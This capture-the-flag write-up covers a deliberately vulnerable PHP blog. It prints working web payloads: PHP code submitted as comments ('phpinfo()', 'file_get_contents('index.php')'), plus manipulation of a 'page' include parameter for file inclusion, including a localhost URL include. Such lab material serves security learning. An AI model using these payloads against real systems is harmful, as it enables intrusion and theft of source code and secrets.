 Test path accessiblity
```
http://34.74.105.127/9ec2869b99/index.php
```

Create comment with body
```
  <?php phpinfo() ?>
```
Submit to get a flag

By viewing page source found a path to admin login page
```
  http://34.74.105.127/9ec2869b99/?page=admin.auth.inc
```

Try another value of page
```
  http://34.74.105.127/9ec2869b99/?page=xx
```
An error message was received
```
  Warning: include(xx.php): failed to open stream: No such file or directory
```
So the value of page is a filename without suffix

Keep on trying, seems subpath php.ini is accessible
```
  http://34.74.105.127/9ec2869b99/php.ini
```

Try another possible file name
```
  http://34.74.105.127/9ec2869b99/?page=admin.inc
```
It leads to a flag at the bottom of the response page


Comment with content
```
  <?php echo file_get_contents('index.php');?>
```
Approve this comment in 'Pending Comments' page.

Visit home page via
```
  http://34.74.105.127/9ec2869b99/?page=http://localhost/index
```
Found the 3rd flag in source code of ```index.php```
